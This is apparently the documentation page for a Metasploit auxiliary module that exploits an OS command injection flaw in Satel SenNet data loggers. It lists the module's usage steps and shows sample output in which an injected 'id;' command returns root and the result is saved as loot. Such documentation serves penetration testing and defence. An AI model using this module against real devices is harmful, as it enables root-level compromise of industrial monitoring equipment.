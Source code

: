 This module exploits an OS Command Injection vulnerability in Satel SenNet Data Loggers to perform arbitrary command execution as 'root'.

## Verification Steps

1. Do: ```use auxiliary/scanner/telnet/satel_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/telnet/satel_cmd_exec
msf auxiliary(satel_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(satel_cmd_exec) > run

[*] 1.3.3.7:5000   - Sending command now - id;
[+] 1.3.3.7:5000   - uid=0(root) gid=0(root)
[+] 1.3.3.7:5000   - File saved in: /root/.msf4/loot/20000000000004_1.3.3.7_cmdexeclog_528409.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
